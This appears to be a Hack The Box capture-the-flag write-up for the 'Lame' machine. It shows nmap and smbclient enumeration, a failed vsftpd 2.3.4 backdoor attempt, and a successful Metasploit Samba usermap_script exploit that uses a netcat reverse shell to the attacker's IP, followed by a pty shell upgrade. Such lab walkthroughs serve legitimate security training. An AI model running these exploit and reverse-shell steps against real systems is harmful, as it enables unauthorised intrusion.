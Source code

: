 # HTB - Lame

IP: 10.10.10.3  
Difficulty: Easy  
Tags: FTP, Samba, Reverse Shell

---

## Nmap Scan & Service Enumeration

Started with a basic nmap scan:

```bash
nmap 10.10.10.3
```

Then checked the version of the FTP service:

```bash
nmap -sV -p 21 10.10.10.3
```

Found: `vsftpd 2.3.4`, which is a known vulnerable version.

---

## Trying vsftpd 2.3.4 Exploit

I used Metasploit to attempt the exploit:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run
```

Unfortunately, this didn't result in a shell. So I moved on to checking SMB.

---

## SMB Version Check

Scanned the SMB ports:

```bash
nmap -sV -p 139,445 10.10.10.3
```

The version wasn't clear, so I used smbclient:

```bash
smbclient -L 10.10.10.3 -N
```

This revealed that the target is running **Samba 3.0.20**, which is vulnerable to the `usermap_script` exploit.

---

## Exploiting Samba 3.0.20

Back to Metasploit:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set RPORT 139
set LHOST 10.10.14.106     # replace with your tun0 IP
set LPORT 4444
set PAYLOAD cmd/unix/reverse_netcat
run
```

Before running the above, I started a Netcat listener in another terminal:

```bash
nc -lvnp 4444
```

After executing the exploit, Metasploit didn’t show a session, but my Netcat listener caught a shell:

```
[*] Command shell session 1 opened
```

---

## Upgrading the Shell (Optional)

To get a more usable shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

If Python 2 isn't available:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Summary Table

| Service | Port | Version     | Exploit Module                             | Result     |
|---------|------|-------------|--------------------------------------------|------------|
| FTP     | 21   | vsftpd 2.3.4| exploit/unix/ftp/vsftpd_234_backdoor       | ❌ Failed  |
| SMB     | 139  | Samba 3.0.20| exploit/multi/samba/usermap_script         | ✅ Success |

---




Author: Srikanth A  
Platform: Hack The Box  
Machine: Lame  
Level: Easy

